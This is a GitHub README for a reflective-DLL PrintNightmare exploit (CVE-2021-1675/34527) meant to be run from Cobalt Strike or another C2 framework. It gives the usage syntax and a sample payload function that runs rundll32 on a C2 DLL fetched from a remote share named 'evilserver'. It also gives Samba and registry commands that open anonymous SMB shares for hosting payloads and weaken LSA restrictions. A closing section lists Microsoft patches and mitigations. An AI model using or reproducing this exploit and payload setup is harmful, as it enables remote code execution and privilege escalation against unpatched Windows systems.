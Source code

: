 # PrintNightmare exploit #

**CVE-2021-1675 / CVE-2021-34527** exploit.

Reflective Dll implementation of the PrintNightmare PoC by Cornelis de Plaa ([@Cneelis](https://twitter.com/cneelis)). The exploit was originally created by Zhiniang Peng ([@edwardzpeng](https://twitter.com/edwardzpeng)) & Xuefeng Li ([@lxf02942370](https://twitter.com/lxf02942370)).

* It can be used as Remote Code Execution (RCE) exploit (screenshot 1),
* It can be used for Privilege Escalation (screenshot 2).

This implementation has some advantages compared to other public exploits:

* It uses MS-PAR protocol instead of MS-RPRN (credits [@cube0x0](https://twitter.com/cube0x0)).
* It is in Reflective DLL form, so can be used directly from Cobaltstrike or other C2 framework.
* It automatically finds the path of the printer driver.

### Usage ###

Within Cobaltstrike Beacon console:

```
PrintNightmare [target ip or hostname] [UNC path to payload Dll] [optional domain] [optional username] [optional password]
```

The payload DLL is started by spoolsv.exe (print spool service) from DllMain and should thus avoid API calls which require synchronisation to avoid deadlocks.
We recommend to let this payload DLL perform a CreateProcess call to something like this:


```
void NothingToSeeHere() {
	STARTUPINFO sui;
	PROCESS_INFORMATION pi;

	RtlZeroMemory(&sui, sizeof(sui));
	RtlZeroMemory(&pi, sizeof(pi));
	sui.cb = sizeof(sui);

	GetStartupInfo(&sui);
	LPCWSTR lpwApplicationName = L"C:\\Windows\\System32\\rundll32.exe";
	LPWSTR lpwCommandLine = (LPWSTR)L"C:\\Windows\\System32\\rundll32.exe \\\\evilserver\\thankyou\\c2payload.dll,MyExport";

	if (!CreateProcess(lpwApplicationName, lpwCommandLine, NULL, NULL, FALSE, CREATE_NO_WINDOW, NULL, NULL, &sui, &pi)) {
		return;
	}

	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);

	return;
}
```

*Screenshot 1: using this exploit for RCE*
![](PrintNightmare_rce.jpeg)

*Screenshot 2: using this exploit for LPE*
![](PrintNightmare_lpe.png) 

*SMB server configuration*

Source: https://github.com/cube0x0/CVE-2021-1675#smb-configuration

Easiest way to host payloads is to use samba and modify /etc/samba/smb.conf to allow anonymous access:

```
[global]
     map to guest = Bad User
     server role = standalone server
     usershare allow guests = yes
     idmap config * : backend = tdb
     smb ports = 445
[smb]
     comment = Samba
     path = /tmp/
     guest ok = yes
     read only = no
     browsable = yes
     force user = smbuser
```

From windows it's also possible:

```
mkdir C:\share
icacls C:\share\ /T /grant Anonymous logon:r
icacls C:\share\ /T /grant Everyone:r
New-SmbShare -Path C:\share -Name share -ReadAccess 'ANONYMOUS LOGON','Everyone'
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f #This will overwrite existing NullSessionPipes
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f
# Reboot
```

### Compile instructions: ###

This project is written in C and assembly.
You can use Visual Studio to compile it from source.
We are not releasing binaries, so you will have to compile yourself.

### Mitigation ###

In July 2021 Microsoft released an emergency update to fix the PrintNightmare vulnerability (CVE-2021-34527).
Make sure you run Windows update and install the following update:

* Version 21H1, 20H1, 2004 – KB5004945 (Build 19043.1083).
* Version 1909 – KB5004946 (Build 18363.1646).
* Version 1809 and Windows Server 2019 – KB5004947 (Build 17763.2029).
* Version 1803 – KB5004949
* Version 1507 – KB5004950.
* Windows 8.1 and Windows Server 2012 – KB5004954 and KB5004958 (security only).
* Windows 7 SP1 and Windows Server 2008 R2 SP1 – KB5004953 and KB5004951 (security only)
* Windows Server 2008 SP2 – KB5004955 and KB5004959 (security only).

For more information, see Microsoft guidance:

https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527

This patch also offers the ability to prevent non-administrators from installing any print drivers on a print server (incl. signed drivers), by configuring the “RestrictDriverInstallationToAdministrators” registry value.
For information on this option, see:

https://support.microsoft.com/en-us/topic/kb5005010-restricting-installation-of-new-printer-drivers-after-applying-the-july-6-2021-updates-31b91c02-05bc-4ada-a7ea-183b129578a7

Other option to mitigate the PrintNightmare vulnerability includes:

* Disable Print Spooler service‍ (on Domain Controllers & non-print servers)‍.
* Disable inbound remote printing through Group Policy.
* Block inbound connectivity using a firewall.
* Ensure Point and Print installation prompts are enabled.
